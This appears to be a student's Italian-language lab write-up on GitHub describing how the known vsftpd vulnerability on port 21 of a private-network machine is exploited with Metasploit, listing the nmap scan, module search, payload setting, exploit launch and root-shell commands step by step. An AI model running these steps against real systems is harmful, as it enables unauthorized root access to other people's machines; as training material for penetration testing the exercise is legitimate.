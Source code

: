 # **Metasploit**
Nell'esercizio di oggi abbiamo utilizzato il framework di metasploit per bucare una vulnerabiltà nota sulla porta 21.

## **Processo**
### **nmap**
Scansione IP della macchina target
```bash
nmap -sV -T5 192.168.1.149
```
➡️ [Risultato scansione](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/2.png)
### **vsftpd**
Ho cercato una parola chiave che mi potesse trovare la vulnerabilità nota
```bash
search vsftpd 
```
➡️ [Risultato scansione](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/3.png)
### **payload**
Tramite il comando show ho trovato i payload utilizzabili con questo exploit
```bash
show payloads
```
➡️ [Payloads](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/3.png)
### **host**
Ho settato l'host target da bucare
```bash
set RHOSTS 192.168.1.149
```
### **payload**
Ho impostato il payload per l'exploit
```bash
set payload /payload/cmd/unix/interact
```

### **avvio**
Dopo aver settato tutto ho avviato il framework
```bash
exploit
```
➡️ [Avvio](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/7.png)

### **ls**
Digito un semplice comando per visuallizare tutte le directory
```bash
ls
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/8.png)

### **cd**
Sono entrato nella directory root
```bash
cd root
```
### **root**
Creao una cartella nella directory root e poi visualizzo il contenuto
```bash
mkdir test_metasploit
ls
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_Metasploit/blob/main/Octavian_Ceresau_Metasploit/foto/10.png)

